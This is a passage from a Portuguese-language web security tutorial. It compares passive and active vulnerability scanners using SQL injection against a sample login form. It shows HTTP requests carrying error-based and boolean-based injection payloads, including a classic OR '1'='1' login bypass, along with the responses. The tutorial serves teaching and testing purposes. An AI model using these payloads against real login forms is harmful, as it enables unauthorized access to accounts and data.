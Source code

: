 ```
Fase 3: Validação Manual
├─ Confirmar vulnerabilidades encontradas
├─ Explorar manualmente
└─ Documentar para relatório
```

---

## 🔐 Exemplo Detalhado: SQL Injection

### Cenário: Login Form

```html
<form action="/login" method="POST">
  <input name="username" />
  <input name="password" type="password" />
  <button>Login</button>
</form>
```

#### Scanner Passivo

```
POST /login
username=admin&password=123456

Resposta:
<html>Usuário ou senha inválidos</html>

Scanner Passivo:
❌ Nenhum erro SQL detectado
❌ Nenhuma vulnerabilidade encontrada
```

#### Scanner Ativo

```
Teste 1: Error-Based SQL Injection
POST /login
username=admin'&password=123456

Resposta:
<html>Usuário ou senha inválidos</html>

Resultado: ❌ Não conclusivo (sem erro SQL)

---

Teste 2: Boolean-Based SQL Injection
POST /login
username=admin' OR '1'='1&password=anything

Resposta:
<html>Bem-vindo, admin!</html> (Logado!)

POST /login
username=admin' OR '1'='2&password=anything

Resposta:
<html>Usuário ou senha inválidos</html> (Não logado)

Análise:
• Query TRUE ('1'='1'): Sucesso no login
• Query FALSE ('1'='2'): Falha no login
• Conclusão: Aplicação responde diferente!
```
